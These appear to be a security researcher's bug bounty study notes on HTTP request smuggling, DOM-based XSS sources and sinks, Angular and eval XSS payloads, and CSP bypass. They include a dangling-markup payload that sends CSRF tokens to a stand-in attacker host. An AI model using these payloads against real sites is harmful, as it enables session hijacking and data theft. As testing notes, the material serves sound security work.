 ```yaml
---
layout: page
title: Bug Bounty Notes
permalink: /guides
comments: false
---
```


Save for later: 

## Vulnerability Testing

Note: Add more vuln specfic notes from OneNote

#### HTTP Request Smuggling

**Step 1:** Begin by right-clicking on the Fully Qualified Domain Name (FQDN) and selecting the "Smuggle Probe" option.  
**Step 2:** If the tool identifies a vulnerability, left-click on the "Issue" to delve deeper. Navigate to the "Request 1" tab and select either CL.TE or TE.CL, depending on the specific payload requirements.  
(If the vulnerability is detected across multiple directories, expand the paths and ensure you select the correct one.)  
**Step 3:** Adjust the prefix to match the necessary payload criteria.  
**Step 4:** Launch the attack.

#### Advanced XSS
- Cheat Sheet -- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

##### Three Types
- Reflected -- Malicious script comes from current HTTP Request
- Stored -- Malicous script comes from the application's database
- DOM -- Vulnerability exists in the client-side code

##### DOM-based XSS
- Vulnerable pages take user-controlled data (source) and pass it to a function that supports dynamic code execution (sink)
- Common Sources:
    `window.location (URL)`
    `location.search`
    `location.hash`
    `document.URL`
    `document.documentURI`
    `document.URLUnencoded`
    `document.baseURI`
    `location`
    `document.cookie`
    `document.referrer`
    `window.name`
    `history.pushState`
    `history.replaceState`
    `localStorage`
    `sessionStorage`
    `IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)`
    `Database`
- Common Sinks:
    `document.write()`
      - Works with <script>
    `document.writeln()`
    `document.domain`
    `someDOMElement.innerHTML`
      - Works with <img> or <iframe>
    `someDOMElement.outerHTML`
    `someDOMElement.insertAdjacentHTML`
    `someDOMElement.onevent`
    `add()`
    `after()`
    `append()`
    `animate()`
    `attr()`
      - Works with HTML tags that can use the href attribute
      - Example: Set return URL to javascript:alert('XSS')
    `insertAfter()`
    `insertBefore()`
    `before()`
    `html()`
    `prepend()`
    `replaceAll()`
    `replaceWith()`
    `wrap()`
    `wrapInner()`
    `wrapAll()`
    `has()`
    `constructor()`
    `init()`
    `index()`
    `jQuery.parseHTML()`
    `$.parseHTML()`
- Testing for Sinks:
    ~ HTML Sinks -- Easy
        1. Send MD5 sum through the source
        2. Search HTML in Dev Tools for MD5 sum (Ctrl + F)
        3. Refine payload to deliver attack
    - JavaScript Execution Sinks -- Hard
        1. Search JavaScript code for any sources being referenced (Ctrl + Shift + F)
        2. Add breakpoints and manually follow how the source's value is being used
        3. If source's value is assigned to a variable, search for how that variable is used
        4. If that variable is passed to a sink, hover over the variable to show it's value before it's passed to the sink
        5. Refine payload to deliver attack
- Angular
    - Look for the "ng-app" attribute
    - All JavaScript enclosed in the HTML tags labelled ng-app will be run automatically by Angular
    Payload: `{{$on.constructor('alert(1)')()}}`
- When JavaScript eval() method evaluates a JSON object
    Payload: `\"-alert(1)}//`

##### Contexts
- Between HTML tags
    EX: <p>[USER CONTROLLED INPUT]</p>
    - Attacker must introduce new HTML tags to trigger JavaScript
    Step 1: Fuzz for HTML tags filtered by WAF
    Step 2: Fuzz for attributes/events filtered by WAF
    Step 3: Fuzz for payloads filtered by WAF
    Step 4: Build working payload based on whitelisted tag, attr, and payload

##### Bypassing Content Security Policy (CSP)

Common CSP Controls:
    - Content-Security-Policy Header:
        - script-src 'self' -- Only scripts from the same origin domain can be loaded
        - script-src https://scripts.normal-website.com -- Only scripts from a specific domain can be loaded
    - Nonce (random value):
        - Same value must be used in the script tag, otherwise the script won't execute
        - Must be securely generated each time the page loads
        - Must not be guessable
    - Hash (hash value of script being loaded)
        - Script will not load if it is changed since the hash will no longer match
- Most CSPs don't block <img> tags 
- Dangling Markup Injection can be used to bypass CSP
    - Inject HTML tags with open attr quotes so sensitive data (CSRF Token) is sent to attacker's server
    Step 1: Identify name of input field to exploit
    Step 2: Add GET parameter in URL with corresponding name
    Step 3: Value of malicious parameter will be the payload
    **IMPORTANT NOTES**
    - Send request through Repeater, then "Show Response in Browser"
    - Single vs Double quote is VERY important.  Double quote will end on next double quote and vice-versa
    EX:
       ```<input type="text" name="input" value="[PAYLOAD]"/>```
        ```[PAYLOAD] = "><img src='//attacker-website.com?```
        ```Resulting HTML: <input type="text" name="input" value=""><img src='//attacker-website.com?[SENSITIVE DATA]"/>```
